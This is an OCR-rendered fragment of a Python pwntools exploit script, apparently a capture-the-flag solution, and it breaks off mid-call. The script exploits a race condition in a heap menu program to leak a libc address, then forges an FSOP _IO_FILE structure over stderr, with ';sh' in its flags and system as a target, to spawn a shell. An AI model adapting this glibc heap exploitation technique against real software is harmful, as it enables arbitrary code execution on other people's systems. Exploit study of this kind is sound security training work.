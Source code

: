 ```python
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")

    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

# rc : If rc is True, this function call does not use the race condition vulnerability.
# If rc is False, this function call use the race condition vulnerability.

# rcd : If rcd is True, We just use a race condition vulnerability so we have to execute function before b">" is printed.
# If rcd is False, we have to execute function after b">" is printed.

def _malloc(idx : int, rc = False, rcd = False):
    if rcd == True : p.sendline(b'1')
    else : p.sendlineafter(b"> ", b"1")

    p.sendlineafter(b"> ", str(idx).encode())

    if rc == True: p.recvuntil(b'end')

def _view(idx : int, rcd = False):
    if rcd == True : p.sendline(b'2')
    else : p.sendlineafter(b"> ", b"2")
    p.sendlineafter("> ", str(idx).encode())
    p.recvline()
    return p.recvn(0x100)

def _edit(payload : bytes):
    p.sendafter("> ", payload)


def _free(idx : int, rcd = False):
    if rcd == True : p.sendline(b'3')
    else : p.sendlineafter(b"> ", b"3")

    p.sendlineafter("> ", str(idx))

_malloc(0, True)
for i in trange(1, 10):
    _malloc(i, True, True)
_free(0, True)
for i in trange(1, 10):
    _free(i)

# In this progress, fast bins are marged and entered into the unsorted bin.
# Show the picture below.

# race condition
_malloc(8, True)
leak = _view(8, True)
print(leak)
l.address = u64(leak[0x28:0x30]) - (0x7fa13c42fce0 - 0x7fa13c215000)
_edit(b'a' * 0x10 + p64(l.sym['_IO_2_1_stderr_']))
print(hex(l.address))

fake_fsop_struct = l.sym['_IO_2_1_stderr_']
FSOP = FSOP_struct(
    flags=u64(b"\x01\x01\x01\x01;sh\x00"),
    lock=fake_fsop_struct + 0x1000,
    _wide_data=fake_fsop_struct - 0x10,
    _markers=l.symbols["system"],
```